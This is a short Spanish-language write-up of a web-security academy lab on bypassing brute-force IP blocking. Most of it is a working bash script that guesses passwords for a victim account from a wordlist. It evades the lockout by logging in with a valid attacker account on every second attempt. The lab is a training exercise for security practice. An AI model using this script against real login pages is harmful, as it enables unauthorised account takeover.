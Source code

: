 ## 4. Lab: Broken brute-force protection, IP block

```
Your credentials: wiener:peter
Victim's username: carlos
```

```
https://acdc1fe11eb6d006807363a8001d00fb.web-security-academy.net/login
csrf=zus2HXTmtFPFdOSnT7JHTTuVSFIY5KAQ&username=sd&password=sd
```

Escribiremos un script para desarrollar este ejercicio el cual será el siguiente:

```bash
#!/bin/bash

URL='https://acdc1fe11eb6d006807363a8001d00fb.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`
USER="carlos"
USER0="wiener"
PASS0="peter"
N=1
for PASS in `cat password.txt`;do

    if [ $[ $N % 2 ] == 0 ]
    then
        #Nos logeamos con la cuenta existente
        #Para reiniciar el contador. :D
        DATA2='csrf='$CSRF'&username='$USER0'&password='$PASS0
        curl $URL -d $DATA2 -b $COOKIE -s > $NULL
    fi
    DATA='csrf='$CSRF'&username='$USER'&password='$PASS
    RESULT=`curl $URL -d $DATA -b $COOKIE -s`

    if echo $RESULT | grep -o "Incorrect password" > $NULL
    then
        echo "Incorrect creds: $USER:$PASS"
    else
        echo "Valid creds: $USER:$PASS"
        break
    fi
    N="$[ $N + 1 ]"
done
```

Obtenemos el resultado del script.

![output](img13.png)
